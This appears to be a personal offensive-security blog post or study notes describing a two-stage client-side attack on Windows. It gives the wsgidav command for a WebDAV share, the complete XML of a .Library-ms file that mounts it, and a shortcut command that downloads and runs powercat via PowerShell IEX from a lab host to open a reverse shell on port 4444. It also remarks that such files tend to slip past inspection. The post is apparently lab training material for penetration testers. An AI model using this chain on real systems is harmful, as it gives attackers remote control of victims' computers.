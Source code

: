 ```yaml
---
layout: post
title: Windows Library Files
titledate: 09/01/23
tags: ["infosec","offsec"]
---
```


#### Windows Library Files

First we create a 2 stage client side attack

Windows library file connecting to a _WebDAV_

When the victim receives a  _.Library-ms_ file and double clicks it the share will be mounted and appear as a regular directory

Inside we can put a .lnk  shortcut that  when clicked executes a Powershell reverse shell

<h3>Note most inspection devices may filter or catch malicious lnk files, but lib-ms files can go unnoticed</h3>

First we setup a WebDAV share

    $ pip3 install wsgidav
    $ mkdir /home/kali/webdav
    $ touch /home/kali/webdav/test.txt
    $/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Next we connect to our windows computer and create a _config.Library-ms_ file

<h4>craft Library-ms</h4>
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    </libraryDescription>
```

Now we add 2 tags inside the Library tag
```xml
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>    
```

isLibraryPinned pins the library to the nav panel in windows explorer
```xml
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>

    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
```
WebDAV share info
```xml
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
```
final WebDAV
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
    </libraryDescription>
```
<h4>execution</h4>

Now when we execute our lib-ms file we see our created test.txt file mounted in windows explorer

<h3>Note: to avoid issues with this attack, reset the file to final WebDAV</h3>

#### Reverse Shell

Next we create a shortcut on the Desktop for the user and point it to a powershell reverse shell

    powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
    powercat -c 192.168.119.3 -p 4444 -e powershell"

Now with our webDAV server running, our python server hosting powercat and a netcat listener listening ^^:> our webDAV share will be mounted and a user can click our shortcut to retrieve the powercat script to enable our reverse shell to connect
